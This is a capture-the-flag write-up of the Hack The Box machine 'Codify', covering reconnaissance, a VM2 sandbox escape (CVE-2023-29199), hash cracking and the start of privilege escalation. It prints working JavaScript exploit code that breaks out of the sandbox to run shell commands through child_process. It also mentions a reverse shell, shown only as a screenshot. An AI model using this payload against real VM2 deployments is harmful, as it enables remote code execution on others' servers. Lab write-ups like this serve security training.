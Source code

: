 # Write up
First of all, before starting to explain how has been pwned Codify, I'm going to show you all the concepts that are used to vulnerate this server:
  - An NodeJs vulnerability is exploited to gain access as user CVS (user with minimum privileges)
  - An exaustive system enumeration is needed to detect an ''.db'' file.
  - Cracking hashes.
  - Abusing SUDOERS privilege.

## Reconnaissance phase

As usual, reconnaissance phase was the first phase executed due to the fact that a hacker needs to know as much information about his target as possible before starting to exploit posible vulnerabilities.

To do this, it is necessary to add a new line in the file ''/etc/hosts'', where the server IP is defined when a request is made to codify.htb:

[![hosts.png](https://i.postimg.cc/KvyMrT1X/hosts.png)](https://postimg.cc/7bmhqf1X)

Next, Nmap is used to scan all ports on the server. The tool output is as follows:

[![Nmap.png](https://i.postimg.cc/4ySGNV78/Nmap.png)](https://postimg.cc/XBdmsZgF)

As seen in the last image, three open ports were discovered, two HTTP ports and one SSH port. The SSH port had a fairly up-to-date version, so it would be difficult to exploit this service. On the other hand, there are two http ports, so it is worth scanning the technology that is working behind both ports:

[![Scann.png](https://i.postimg.cc/qqLN1mdv/Scann.png)](https://postimg.cc/4HY4dQdD)

Practically, the output of both ports is the same, so it is likely that the same website is being exposed on both ports. For this reason, the two websites are accessed and verified to be the same.

Searching for information about the website, at "http://codify.htb/about" one discovers that it makes use of the NodeJs VM2 library. More specifically, it uses VM2 version 3.9.16:

[![VM2.png](https://i.postimg.cc/cHNCKZ0P/VM2.png)](https://postimg.cc/SXDk5BXG)

VM2 is a JavaScript library used to virtualize a sandbox on a server. In this case, this sandbox is used to run insecure code given by a user in a safe way. For this purpose, VM2 disables some global objects such as process, which allows to obtain information and control the main process.

In addition, developers restricted other modules such as 'child_process' and 'fs'. The child_process module allows to generate threads and thus execute commands on the server, and the fs module allows to interact directly with the file system.

## Exploitation phase

These restrictions can be avoided, as shown in **CVE-2023-29199**. The following code is used for this purpose:

```JavaScript
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('id');
}
```

Why are restrictions avoided with this code? Because VM2 uses the transformer() module to preprocess and modify its source code, for example, they modify the way exceptions are raised to raise sanitized exceptions with handleException().

In short, these functions use Reflect.getPrototypeOf() to get the prototype of the error object. Thus, the Proxy object can be used to throw unsanitized exceptions containing malicious code.

In addiction, as the exceptions have the ability to access the main process, so they can return an object that is not possible in the sandbox thread, and the data input is not sanitized, the attacker can run his own commands on the server.

Thanks to all concepts explained, reverse shell was created to access the server, as shown in the following image:

[![explotacion.png](https://i.postimg.cc/x8XTZHJH/explotacion.png)](https://postimg.cc/wRdpy1kT)

## Post exploitation phase
### Privilege escalation to Joshua

After gaining access to the CVS user, it is time to recognize the system. If done right, you will have found a '.db' file in "/var/www/contact". Inside it, you will find a bcrypt hash that you have to crack:

[![fichero.png](https://i.postimg.cc/tJTxDYNn/fichero.png)](https://postimg.cc/5Yhy29Gf)

Now, with the password cracked, it is possible to migrate to Joshua's account.

### Privilege escalation to root
Being Joshua, a reconnaissance of the system was done looking for something that would allow a privilege escalation to root. With a bit of luck, a file was found that can be run as root in "/opt/scripts".

